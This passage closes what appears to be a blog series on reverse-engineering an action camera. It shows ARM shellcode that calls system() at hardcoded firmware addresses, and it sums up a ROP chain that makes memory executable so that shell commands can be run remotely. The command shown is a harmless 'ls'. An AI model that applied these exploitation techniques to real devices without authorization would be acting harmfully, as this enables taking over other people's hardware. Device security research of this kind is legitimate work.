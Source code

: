 ![cortex_a7_midr.png](/assets/images/analysing_an_action_camera_part_4/cortex_a7_midr.png)

## Executing Shell Commands Remotely

At this point there is no way to execute shell commands remotely, lets change that with a bit of shellcode! The standard call to **system()** works great.

```
-python
    adr r0, command_string
    ldr r3, =0xc01e4094
    blx r3
    @ fixup
    ldr r3, =#0xc09ae8d4
    ldr r2, [r3,#0x0]
    ldr r5, =#0x5d4
    ldr r6, =#0xc02202e4
    ldr r7, =#0xc09afec0
    add r11, r2, r5
    blx r6
command_string:
    .ascii "ls"
```

That was easy!

# Conclusion

We used our limited ROP-chain to make some more room for a larger, less limited ROP-chain. We then used this larger chain to load shellcode from a file into executable memory (by changing the permissions on it), and used this shellcode to identify the CPU, and run shell commands remotely!